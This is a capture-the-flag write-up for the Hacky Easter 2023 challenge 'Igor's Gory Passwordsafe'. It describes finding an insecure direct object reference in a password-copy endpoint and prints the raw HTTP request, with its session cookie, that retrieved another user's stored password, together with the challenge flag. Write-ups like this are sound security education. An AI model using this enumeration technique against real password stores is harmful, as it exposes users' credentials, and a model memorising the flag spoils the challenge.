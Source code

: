 # Description

# Igor's Gory Passwordsafe

You found the following letter:

Hi Peter

Thanks again for your help in cryptography to make the passwordsafe secure. Now

 - The passwords of the user are stored in a irreversible way (bcrypt)
 - All passwords in the safe are encrypted by a strong symmetric key

Kind regards, Roy

Open the passwordsafe at at <http://ch.hackyeaster.com:2312> to get your 🚩 flag.

Note: The service is restarted every hour at x:00.

## Hints

No brute forcing needed, really!

# Solution

so we got a website, where we can register a user and then store passwords, so i tried sql injections everywhere but nothing, then i tried to modify the passwords with the update functionality, since the password ids were enumerable, but i was only able to modfy the users passwords

after some time and monitoring everything with burp i found that there was a function `copy password` with that your password got copied to your clipboard, and at the same time a GET request was sent (also with the same enumerable id) which returned the password

so i tried to get other passwords from that endpoint, and it worked!

```
GET /get/7 HTTP/1.1
Host: ch.hackyeaster.com:2312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://ch.hackyeaster.com:2312/show
Cookie: session=.eJwtzjEOwjAMBdC7ZGZw7NhJepkqTr4FElNLJ8TdYeAE773THgfOe9pex4Vb2h8rbckLeUSVYjOokGkUgc0quWkNYCzD6qjNdcjUySM38MAwFZLFqsuDW4dbIWLj3maNVVSUVhOK5lTgCyObcdYuxPhpgNUpPNIvcp04_pvn5Tl9vqIdMNs.ZDApBg.NecbzrpaBOZxR3_4bIkZVIqCvL0
```

gave the flag:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.10.10
Date: Fri, 07 Apr 2023 14:39:27 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 41
Vary: Cookie
Connection: close

he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}
```

now the challenge name also makes sense to me!

# Flag: he2023{1d0R_c4n_d3str0y_ur_Crypt0_3ff0rt}
